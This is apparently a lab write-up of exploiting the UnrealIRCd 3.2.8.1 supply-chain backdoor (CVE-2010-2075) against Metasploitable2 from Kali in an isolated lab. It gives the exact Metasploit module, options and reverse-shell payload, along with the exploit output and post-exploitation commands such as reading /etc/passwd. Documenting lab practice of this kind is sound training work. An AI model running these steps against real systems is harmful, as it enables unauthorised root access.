





# 03 — Exploitation: UnrealIRCd 3.2.8.1 Backdoor

## Category
Red Team / Exploitation / Metasploit Framework / Supply Chain Attack

## Objective
Exploit the backdoor inserted in the UnrealIRCd 3.2.8.1 source
to obtain a root shell on the target via Metasploit.

## Background — CVE-2010-2075

Between November 2009 and June 2010 someone compromised the official
UnrealIRCd repository and inserted a backdoor in the file
`Unreal3.2.8.1.tar.gz`. The trigger: any string starting
with `AB` sent over the IRC connection is executed as a system
command with the process privileges — on Metasploitable, root.

This is a real **supply chain attack**: not a software
vulnerability, but a compromise of the distribution channel.
Anyone who downloaded the archive during that period
had installed a backdoor without knowing it.

Discovered on June 12, 2010 and immediately removed.

| Reference | Value |
|---|---|
| CVE | CVE-2010-2075 |
| OSVDB | 65445 |
| Disclosure | 2010-06-12 |
| Metasploit Rank | Excellent |

## Environment

| Role | VM | IP | Port |
|---|---|---|---|
| Attacker | Kali Linux | 10.10.10.100 | 4444 (listener) |
| Target | Metasploitable2 | 10.10.10.101 | 6667 (IRC) |

## Tool
**Metasploit Framework v6.4.126-dev** — pre-installed on Kali.

## Full Procedure

### 1 — Recon — verify IRC service

```bash
nmap -sV -p 6667 10.10.10.101
```

Output:
```
PORT     STATE SERVICE VERSION
6667/tcp open  irc     UnrealIRCd
Service Info: Host: irc.Metasploitable.LAN
```

Service is UnrealIRCd, active on `irc.Metasploitable.LAN`. ✅



### 2 — Metasploit Module Selection

```
msfconsole
msf > search unreal
msf > use exploit/unix/irc/unreal_ircd_3281_backdoor
msf exploit(...) > info
```

Relevant `info` output:
- **Rank:** Excellent
- **Platform:** Unix, Linux
- **Arch:** cmd
- **Privileged:** No (backdoor inherits IRC process privileges — root on Metasploitable)
- **Description:** backdoor in download archive between Nov 2009 and Jun 2010



### 3 — Options Configuration

```
show options
set RHOSTS 10.10.10.101
set LHOST 10.10.10.100
set RPORT 6667
set PAYLOAD cmd/unix/reverse
show options
```

Final verified configuration:

| Option | Value |
|---|---|
| RHOSTS | 10.10.10.101 |
| RPORT | 6667 |
| LHOST | 10.10.10.100 |
| LPORT | 4444 |
| PAYLOAD | cmd/unix/reverse |



### 4 — Launch Exploit

```
run
```

Full output:
```
[*] Started reverse TCP double handler on 10.10.10.100:4444
[*] 10.10.10.101:6667 - Connected to 10.10.10.101:6667...
[*] 10.10.10.101:6667 - Sending IRC backdoor command
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo rjj02LGCgTfY2N8P;
[*] Writing to socket A
[*] Writing to socket B
[*] A is input...
[+] Command shell session 1 opened (10.10.10.100:4444 → 10.10.10.101:35598)
```

The `cmd/unix/reverse` payload uses a **double handler**: opens
two separate TCP connections (socket A and B) to separate stdin
and stdout of the remote shell.



### 5 — Post-Exploitation

```bash
id
# uid=0(root) gid=0(root)

whoami
# root

uname -a
# Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux

hostname
# metasploitable

cat /etc/passwd
# root:x:0:0:root:/root:/bin/bash
# msfadmin:x:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
# [... other system users ...]

netstat -antp
# All listening services: FTP, SSH, Telnet, HTTP, SMB,
# IRC (5030/unrealircd), MySQL, PostgreSQL, VNC, etc.
# ESTABLISHED connection: 10.10.10.101:35598 → 10.10.10.100:4444
```



## Comparison with Previous Exploits

| Aspect | Bindshell 1524 | vsftpd Backdoor | UnrealIRCd Backdoor |
|---|---|---|---|
| Tool | netcat | Metasploit | Metasploit |
| Type | Bind shell | Reverse shell | Reverse shell (double) |
| Connection | Kali → Target | Target → Kali | Target → Kali (x2) |
| Target port | 1524 | 21 | 6667 |
| Complexity | Minimal | Medium | Medium |
| Vulnerability type | Misconfiguration | Supply chain | Supply chain |
| CVE | — | — | CVE-2010-2075 |

## Result
- Root shell obtained ✅
- `id`: uid=0(root) gid=0(root) ✅
- `uname -a`: kernel 2.6.24, i686 ✅
- `/etc/passwd` read ✅
- `netstat -antp`: full services map ✅

## Snapshots
- `05-kali-unrealircd-exploit` (Kali)
- `03-meta-post-unrealircd` (Metasploitable)

## Lessons Learned
- A supply chain attack is more insidious than a classic vulnerability:
  the software is "legitimate" but the distribution channel is compromised
- `info -d` shows the extended description and CVE/OSVDB references —
  always read before launching an exploit in a documented lab
- The `cmd/unix/reverse` payload uses a double handler (two TCP sockets)
  to handle stdin/stdout separately: more stable on older systems
- `netstat -antp` after compromise is essential: reveals all
  listening services, active connections (including ours), and
  process PIDs — valuable information for pivoting
- The ESTABLISHED connection in netstat (10.10.10.101 → 10.10.10.100:4444)
  is our reverse shell — visible to any Blue Team that monitors the network
